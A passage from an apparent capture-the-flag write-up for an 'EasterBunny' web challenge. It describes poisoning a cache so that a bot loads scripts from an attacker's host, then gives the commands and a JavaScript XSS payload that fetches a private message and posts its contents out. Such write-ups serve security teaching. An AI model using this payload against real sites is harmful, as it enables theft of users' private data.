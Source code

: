 Cached page is served to the bot and page scripts are retrieved from attacker’s injected host:

![Untitled](../../zzz_res/attachments/EasterBunny%20e580b8ca86214deb837383b8e4c495a4%204.png)

# Exploitation

## Exploitation #1 - Force write

Created an suitable directory structure and XSS payload: 

```bash
$ mkdir :80/
$ mkdir :80/static/
$ nano viewletter.js
fetch("http://127.0.0.1:80/message/3").then((r) => {
    return r.text();
}).then((x) => {
    fetch("http://127.0.0.1/submit", {
        "headers": {
            "content-type": "application/json"
        },
        "body": x,
        "method": "POST",
        "mode": "cors",
        "credentials": "omit"
    });
});

```
